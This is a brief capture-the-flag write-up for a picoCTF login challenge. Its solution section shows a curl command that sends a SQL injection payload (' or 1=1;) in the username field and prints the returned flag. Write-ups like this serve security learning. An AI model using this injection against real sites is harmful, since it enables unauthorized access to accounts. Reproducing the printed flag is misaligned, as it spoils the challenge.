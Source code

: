 ## Objetivo
There is a secure website running at `https://jupiter.challenges.picoctf.org/problem/40742/` ([link](https://jupiter.challenges.picoctf.org/problem/40742/)) or http://jupiter.challenges.picoctf.org:40742. Try to see if you can login as admin!
## Solucion
yahirbalderas@Yahirs-MacBook-Pro ~ % curl https://jupiter.challenges.picoctf.org/problem/50009/login.php -d "username=' or 1=1;&password=admin"

<h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_fb3fe2ad}</p>**%**
## Notas adicionales

## Referencias